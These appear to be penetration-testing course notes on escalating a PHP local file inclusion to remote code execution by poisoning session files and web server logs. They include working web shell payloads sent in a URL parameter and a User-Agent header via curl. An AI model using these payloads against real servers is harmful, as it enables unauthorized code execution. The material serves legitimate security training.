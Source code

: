 We have seen in previous sections that if we include any file that contains PHP code, it will get executed, as long as the vulnerable function has the `Execute` privileges. The attacks we will discuss in this section all rely on the same concept: Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

## PHP Session Poisoning
* Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies
* These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows
* The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix
* For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`
* The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison

![](rfi_cookies_storage.png)

* Let's try include this session file through the LFI vulnerability and view its contents
* `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`

![](rfi_session_include.png)

**Note:** As you may easily guess, the cookie value will differ from one session to another, so you need to use the cookie value you find in your own session to perform the same attack.

* We can see that the session file contains two values: `page`, which shows the selected language page, and `preference`, which shows the selected language
* The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified
* However, the `page` value is under our control, as we can control it through the `?language=` parameter
* Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file

```http
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

![](lfi_poisoned_sessid.png)

* This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file
* Our next step is to perform the `poisoning` step by writing PHP code to the session file
* We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell

```http
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

* `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`

![](rfi_session_id.png)

**Note**: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.

## Server Log Poisoning
* Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`
* The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header
* As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above
* Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have `read-access` over the logs
* `Nginx` logs are readable by low privileged users by default (e.g. `www-data`), while the `Apache` logs are only readable by users with high privileges (e.g. `root`/`adm` groups)
* However, in older or misconfigured `Apache` servers, these logs may be readable by low-privileged users
* By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows
* However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations
* `http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log`

![](rfi_access_log.png)

* The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header
* As mentioned earlier, the `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value

**Tip:** Logs tend to be huge, and loading them in an LFI vulnerability may take a while to load, or even crash the server in worst-case scenarios. So, be careful and efficient with them in a production environment, and don't send unnecessary requests.

* To do so, we will use `Burp Suite` to intercept our earlier LFI request and modify the `User-Agent` header to `Apache Log Poisoning`

![](rfi_repeater_ua.png)

**Note:** As all requests to the server get logged, we can poison any request to the web application, and not necessarily the LFI one as we did above.

![](rfi_cmd_repeater.png)

* Also possible with cURL
```sh
$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

* As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution

![](rfi_id_repeater.png)

**Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

* Finally, there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over
	*   `/var/log/sshd.log`
	-   `/var/log/mail`
	-   `/var/log/vsftpd.log`

We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability.